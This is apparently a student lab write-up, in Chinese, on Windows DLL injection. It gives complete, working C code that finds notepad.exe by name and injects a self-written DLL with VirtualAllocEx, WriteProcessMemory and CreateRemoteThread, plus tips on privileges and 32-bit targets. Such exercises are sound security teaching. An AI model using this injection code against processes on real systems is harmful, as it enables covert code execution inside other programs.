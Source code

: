 # DLL 注入攻击

## `demoCreateRemoteThreadW`分析

- 跨进程创建线程，该线程使用`LoadLibraryW`加载 DLL
```c
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		printf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
    // WriteProcessMemory: Writes data to an area of memory in a specified process. The entire area to be written to must be accessible or the operation fails.
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		printf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		printf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		printf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		printf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}
```

## 实验要求

- [x] 向一个目标程序注入一个我们自行编写的`dll`
- [x] 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的`pid`

## 实验过程

### 修改`base.c`

- 添加`DLL`入口点函数
	```c
	BOOL WINAPI DllMain(
		HINSTANCE hinstDLL,  // handle to DLL module
		DWORD fdwReason,     // reason for calling function
		LPVOID lpReserved)  // reserved
	{
		// Perform actions based on the reason for calling.
		switch (fdwReason)
		{
		case DLL_PROCESS_ATTACH:
			// Initialize once for each new process.
			lib_function("loaded");	// 进程初次加载时将调用lib_function
			// Return FALSE to fail DLL load.
			break;
		}
		return TRUE;  // Successful DLL_PROCESS_ATTACH.
	}
	```

### 攻击程序完整代码

- [`demoCreateRemoteThreadW`函数](#democreateremotethreadw分析)
- `getProcessID`函数
	```c
	DWORD getProcessID(const char* pname)
	{
		HANDLE hProcessSnap;
		PROCESSENTRY32 pe32;

		// Take a snapshot of all processes in the system.
		hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
		if (hProcessSnap == INVALID_HANDLE_VALUE)
		{
			printf(TEXT("CreateToolhelp32Snapshot (of processes)"));
			return(FALSE);
		}

		// Set the size of the structure before using it.
		pe32.dwSize = sizeof(PROCESSENTRY32);

		// Retrieve information about the first process,
		// and exit if unsuccessful
		if (!Process32First(hProcessSnap, &pe32))
		{
			printf(TEXT("Process32First")); // show cause of failure
			CloseHandle(hProcessSnap);          // clean the snapshot object
			return(FALSE);
		}

		// Now walk the snapshot of processes, and
		// get pid with the given process name
		do
		{
			if (lstrcmp(pe32.szExeFile, TEXT(pname)) == 0)
			{
				CloseHandle(hProcessSnap);
				return pe32.th32ProcessID;
			}
		} while (Process32Next(hProcessSnap, &pe32));
		return FALSE;
	}
	```
- `main`函数
	```c
	int main()
	{
		// 由notepad.exe来调用dll，应使用绝对路径
		PCWSTR dllpath = L"F:/XXX/Happy/Debug/baselib.dll";
		DWORD pid = getProcessID("notepad.exe");
		if (pid == 0) exit(0);
		return demoCreateRemoteThreadW(dllpath, pid);
	}
	```

### 实验效果

![DLL 成功注入](img/dll-injection-success.png)

## 问题及解决

### 无法获得进程句柄

- 应使用管理员身份运行攻击者程序

### 无法创建远程线程

- 由远程进程创建加载 DLL 的线程，远程进程的程序所在目录与当前进程的程序所在目录通常不同，因而提供的 DLL 路径应为绝对路径
- 不使用`C:\Windows\System32`下，64位的`notepad.exe`，改为使用`C:\Windows\SysWOW64`下，32位的`notepad.exe`

## 参考资料

- [Dynamic-Link Library Entry-Point Function](https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-entry-point-function)
